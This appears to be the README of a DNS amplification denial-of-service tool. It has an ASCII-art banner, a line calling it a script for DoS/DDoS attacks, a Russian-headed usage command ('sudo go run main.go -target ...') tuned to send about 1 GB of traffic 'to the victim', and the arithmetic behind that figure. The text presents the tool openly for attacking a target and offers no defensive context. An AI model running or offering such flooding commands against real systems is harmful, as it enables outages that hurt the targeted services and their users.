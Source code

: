     ╔═══════════════════════════╗
    ║   ┏━┓╻ ╻╺┓ ┏━┓┏━╸┏━┓╺┓ 	║	
	║	┗━┓┃╻┃ ┃ ┏━┛┣╸ ┏━┛ ┃ 	║
	║	┗━┛┗┻┛╺┻╸┗━╸╹  ┗━╸╺┻╸   ║
    ║     DNS Amplification     ║
    ╚═══════════════════════════╝

    Script for amplification DOS/DDOS attack

# Для 1 ГБ трафика к жертве:
```bash
sudo go run main.go -target {Target IP} -threads 200 -duration 300 -count 2000000
```

# Расчет:
2,000,000 × 500 байт = 1,000,000,000 байт ≈ 954 МБ ≈ 0.95 ГБ
